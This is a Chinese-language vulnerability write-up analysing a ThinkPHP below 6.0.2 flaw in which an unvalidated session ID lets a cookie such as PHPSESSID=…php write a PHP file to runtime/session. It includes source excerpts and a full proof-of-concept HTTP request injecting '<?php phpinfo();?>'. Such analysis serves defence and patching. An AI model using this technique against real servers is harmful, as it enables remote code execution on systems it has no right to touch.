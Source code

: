 ```yaml
---
title: "Thinkphp < 6.0.2 session id未作过滤导致getshell"
id: zhfly3172
---
```


# Thinkphp < 6.0.2 session id未作过滤导致getshell

## 一、漏洞简介

## 二、漏洞影响

Thinkphp < 6.0.2

## 三、复现过程

### 漏洞分析

通过diff github上面的6.0.1和6.0.2的代码可以发现，6.0.1在设置`session id`时未对值进行`ctype_alnum()`校验，从而导致可以传入任意字符。

![image](../img/f7adddb9a067a21b6703f00e65eb4d94.png)

传入任意字符会有什么危害？一般来说程序可能会以session id作为文件名来创建对应的session文件，但是到目前为止这只是猜测。看一下保存session是怎么写的。

```
public function save(): void
{
    $this->clearFlashData();

```
$sessionId = $this-&gt;getId();

if (!empty($this-&gt;data)) {
    $data = $this-&gt;serialize($this-&gt;data);

    $this-&gt;handler-&gt;write($sessionId, $data);
} else {
    $this-&gt;handler-&gt;delete($sessionId);
}

$this-&gt;init = false; 
``` `}` 
```

先获取sessionid，然后作为第一个参数传入`$this->handler->write()`。`$this->handler`在构造函数中被初始化

```
public function __construct($name, SessionHandlerInterface $handler, array $serialize = null)
{
    $this->name    = $name;
    $this->handler = $handler;

```
if (!empty($serialize)) {
    $this-&gt;serialize = $serialize;
}

$this-&gt;setId(); 
``` `}` 
```

可以看出`$handler`的类型是`SessionHandlerInterface`，全局发现这是一个接口，实现这个接口的类有两个，一个是`File`，一个是`Cache`。这里以`File`类为例，我们跟进它的`write()`方法

```
public function write(string $sessID, string $sessData): bool
{
    $filename = $this->getFileName($sessID, true);
    $data     = $sessData;

```
if ($this-&gt;config['data_compress'] &amp;&amp; function_exists('gzcompress')) {
    //数据压缩
    $data = gzcompress($data, 3);
}

return $this-&gt;writeFile($filename, $data); 
``` `}` 
```

这里先通过第一个参数（也就是session id）来构造`$filename`，然后判断是否需要对session数据进行压缩，默认是不需要的，最后return时调用`$this->writeFile()`。先看看文件名是如何构造的，跟进`$this->getFileName()`

```
protected function getFileName(string $name, bool $auto = false): string
{
    if ($this->config['prefix']) {
        $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
    } else {
        $name = 'sess_' . $name;
    }

```
$filename = $this-&gt;config['path'] . $name;
...
return $filename; 
``` `}` 
```

这里直接将第一个参数拼接到路径的最后。跟进之前的`$this->writeFile()`方法

```
protected function writeFile($path, $content): bool
{
    return (bool) file_put_contents($path, $content, LOCK_EX);
} 
```

刺激了，这里直接保存了文件。纵观全局，由于程序未对session id进行危险字符判断，只要将session id写为类似于`xxxx.php`的格式，即可导致session保存成`.php`文件，从而getshell。

### 漏洞复现

通过全局搜索`setId`发现在`think/middleware/SessionInit.php:handle():L59`发生了调用。

```
public function handle($request, Closure $next)
{
    // Session初始化
    $varSessionId = $this->app->config->get('session.var_session_id');
    $cookieName   = $this->session->getName();

```
if ($varSessionId &amp;&amp; $request-&gt;request($varSessionId)) {
    $sessionId = $request-&gt;request($varSessionId);
} else {
    $sessionId = $request-&gt;cookie($cookieName);
}

if ($sessionId) {
    $this-&gt;session-&gt;setId($sessionId);
}
... 
``` 
```

由于`session.var_session_id`默认是空，这里的`$sessionId`的值由`$request->cookie($cookieName)`获得，`$cookieName`经过跟进后发现默认是PHPSESSID。

![image](../img/eb8ceb9f32c8f3c2034b2559f2fd33ab.png)

因此我们只要设置Cookie中的PHPSESSID的值为1234567890123456789012345678.php即可。

我们在index控制器中添加如下action

```
public function testsession2(){
    $username = Request::get('name');
    Session::set('username', $username);
    return 'hi';
} 
```

用于获取name参数，并将之设置到session中。

根据控制器构造数据包

注意 session PHPSESSID= 后面要按照要求必须 32位 可以随便构造!!!

```
POST /tp6/public/index.php/index/test1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/tp6/public/index.php/index/test1
Cookie: PHPSESSID=1234567890123456789012345678.php; 
Upgrade-Insecure-Requests: 1 `key=<?php%20phpinfo();?>` 
```

访问url：`http://127.0.0.1/tp6/public/index.php/index/testsession2?name=`

![image](../img/81509c2dc324614813bb7b4d540278fb.png)

访问session文件，一般位于项目根目录下的`./runtime/session/`文件夹下，也就是`/runtime/session/sess_1234567890123456789012345678.php`

![image](../img/d009828d27f683e8d4680faa96be2875.png)

## 参考链接

> https://xz.aliyun.com/t/7109